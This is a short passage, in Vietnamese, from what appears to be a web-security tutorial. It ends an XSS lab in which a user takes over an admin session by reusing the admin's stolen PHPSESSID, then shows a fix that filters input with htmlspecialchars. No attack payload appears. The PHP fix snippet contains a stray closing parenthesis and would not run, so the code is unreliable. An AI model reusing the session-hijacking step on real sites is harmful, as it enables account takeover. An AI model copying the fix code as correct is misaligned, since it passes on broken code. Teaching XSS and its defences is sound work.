
* Refresh trang web với tư cách là user và nhìn thành quả. User bây giờ đã có thể login với tư cách là admin với PHPSESSID của admin.


---

## Fix lỗi xss

* Cách thường gặp nhất để chống xss chính là lọc đầu vào của user 1 cách nghiêm ngặt.
* htmlspecialchars là hàm sẽ xử lý các ký hiệu đặc biệt như `<>` trong javascript ở đầu vào của user. Ở đây ngăn chặn thẻ `<script>` được thực thi như 1 mã javascript mà format nó thành chuỗi bình thường.

    ```
    if(!empty($_POST["submit"])) {
        $name = htmlspecialchars($_POST["name"]));
    }
    ```

